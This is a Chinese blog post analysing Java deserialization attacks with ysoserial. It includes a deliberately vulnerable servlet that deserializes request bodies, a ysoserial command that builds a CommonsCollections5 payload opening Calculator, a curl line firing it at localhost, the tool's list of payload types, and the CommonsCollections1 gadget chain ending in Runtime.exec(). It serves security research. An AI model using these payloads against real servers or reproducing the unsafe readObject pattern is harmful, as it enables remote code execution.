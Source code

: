 ```yaml
---
title: 【websec】ysoserial反序列化研究
date: 2017-05-20 00:01:03
categories: Web安全
tags:
    - 反序列化
    - JAVA
---
```


## demo环境搭建

源码分析ysoserial, 了解java反序列化利用的常见方式，光说不练假把式，搭建demo环境，测试ysoserial利用的实际效果。

**开发环境**

* InteliJ IDEA
* JDK 1.8.0_112-b16
* tomcat 8.5
* MAC OS

新建项目"SimpleWebDemo",再新建servlet文件"SimpleServlet",项目配置如下图:

{% asset_img 001.png %}

<!-- more -->

`SimpleServlet`源码如下:

```java
package demo;

import javax.servlet.ServletInputStream;
import java.io.*;

/**
 * Created by js on 2017/5/19.
 */
public class SimpleServlet extends javax.servlet.http.HttpServlet {
    protected void doPost(javax.servlet.http.HttpServletRequest request, javax.servlet.http.HttpServletResponse response) throws javax.servlet.ServletException, IOException {
        ServletInputStream sis = request.getInputStream();

        ObjectInputStream ois = new ObjectInputStream(sis);
        try {
            ois.readObject();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        ois.close();
    }

    protected void doGet(javax.servlet.http.HttpServletRequest request, javax.servlet.http.HttpServletResponse response) throws javax.servlet.ServletException, IOException {
        PrintWriter out = response.getWriter();
        out.println("This is a demo");
    }
}
```

利用ysoserial生成payload:

```
java -jar ysoserial-v0.0.4.jar CommonsCollections5 "open -a Calculator" > calc.payload
```

curl访问触发漏洞:

```
curl "http://127.0.0.1:8080/demo" --data-binary "@./calc.payload"
```

{% asset_img 002.png %}

## ysoserial反序列化利用

查看反序列化用到的组件及所需满足的条件: `java -jar ysoserial-v0.0.4.jar`

```
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
	Available payload types:
		BeanShell1 [org.beanshell:bsh:2.0b5]
		C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
		CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections5 [commons-collections:commons-collections:3.1]
		CommonsCollections6 [commons-collections:commons-collections:3.1]
		FileUpload1 [commons-fileupload:commons-fileupload:1.3.1, commons-io:commons-io:2.4]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Hibernate1 []
		Hibernate2 []
		JBossInterceptors1 [javassist:javassist:3.12.1.GA, org.jboss.interceptor:jboss-interceptor-core:2.0.0.Final, javax.enterprise:cdi-api:1.0-SP1, javax.interceptor:javax.interceptor-api:3.1, org.jboss.interceptor:jboss-interceptor-spi:2.0.0.Final, org.slf4j:slf4j-api:1.7.21]
		JRMPClient []
		JRMPListener []
        JSON1 [net.sf.json-lib:json-lib:jar:jdk15:2.4, org.springframework:spring-aop:4.1.4.RELEASE, aopalliance:aopalliance:1.0, commons-logging:commons-logging:1.2, commons-lang:commons-lang:2.6, net.sf.ezmorph:ezmorph:1.0.6, commons-beanutils:commons-beanutils:1.9.2, org.springframework:spring-core:4.1.4.RELEASE, commons-collections:commons-collections:3.1]
		JavassistWeld1 [javassist:javassist:3.12.1.GA, org.jboss.weld:weld-core:1.1.33.Final, javax.enterprise:cdi-api:1.0-SP1, javax.interceptor:javax.interceptor-api:3.1, org.jboss.interceptor:jboss-interceptor-spi:2.0.0.Final, org.slf4j:slf4j-api:1.7.21]
		Jdk7u21 []
		Jython1 [org.python:jython-standalone:2.5.2]
		MozillaRhino1 [rhino:js:1.7R2]
		Myfaces1 []
		Myfaces2 []
		ROME [rome:rome:1.0]
		Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
		Spring2 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-aop:4.1.4.RELEASE, aopalliance:aopalliance:1.0, commons-logging:commons-logging:1.2]
		URLDNS []
		Wicket1 [wicket-util:wicket-util:6.23]
```

可以看出ysoyerial支持多种组件，而最常见的就是`commons-collections`组件了。因此有必要分析ysoserial利用`commons-collections`组件构造反序列化POP链的原理。

## commons-collections

### commons-collections1

**依赖条件**

* commons-collections:3.1

**调用链**

```
Gadget chain:
    ObjectInputStream.readObject()
        AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()    <== 触发调用 transform()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()				
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

http://gursevkalra.blogspot.cz/2016/01/ysoserial-commonscollections1-exploit.html
https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html

http://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/

